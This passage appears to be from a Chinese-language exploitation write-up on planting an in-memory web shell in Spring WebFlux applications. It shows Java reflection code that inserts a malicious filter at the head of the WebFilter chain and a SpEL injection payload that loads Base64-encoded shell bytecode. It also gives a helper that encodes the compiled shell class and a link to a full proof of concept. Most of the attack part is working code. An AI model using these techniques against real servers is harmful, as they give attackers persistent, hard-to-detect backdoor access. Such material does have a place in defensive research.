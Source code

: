 

3. 将恶意filter插入到Chain中，并指定到首位(0位)

```java
List<WebFilter> newAllFilters= new ArrayList<>(defaultWebFilterChain.getFilters());
newAllFilters.add(0,new FilterMemshellPro());
DefaultWebFilterChain newChain = new DefaultWebFilterChain((WebHandler) handler, newAllFilters);
```

生成filteringWebHandler:

```java
Field f = filteringWebHandler.getClass().getDeclaredField("chain");
....
f.set(filteringWebHandler,newChain);
```



直达github完整poc：https://github.com/mieeA/SpringWebflux-MemShell/



#### spel表达式注入字节码

Memshell改为你的软件包名+shell

```java
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```

> 其中`'yv66vgAAA....'`为Base64Encode的字节码，可通过如下代码生成：
>
> ```java
> import org.springframework.util.Base64Utils;
> 
> import java.io.*;
> import java.nio.charset.StandardCharsets;
> 
> public class EncodeShell {
>     public static void main(String[] args){
>         byte[] data = null;
>         try {
>             InputStream in = new FileInputStream("MemShell.class");
>             data = new byte[in.available()];
>             in.read(data);
>             in.close();
>         } catch (IOException e) {
>             e.printStackTrace();
>         }
>         String shellStr = Base64Utils.encodeToString(data);
>         System.out.println(shellStr);
>         try {
>             OutputStream out = new FileOutputStream("ShellStr.txt");
>             out.write(shellStr.getBytes(StandardCharsets.UTF_8));
>             out.flush();
>             out.close();
>         } catch (IOException e) {
>             e.printStackTrace();
>         }
>     }
> }
> ```
>
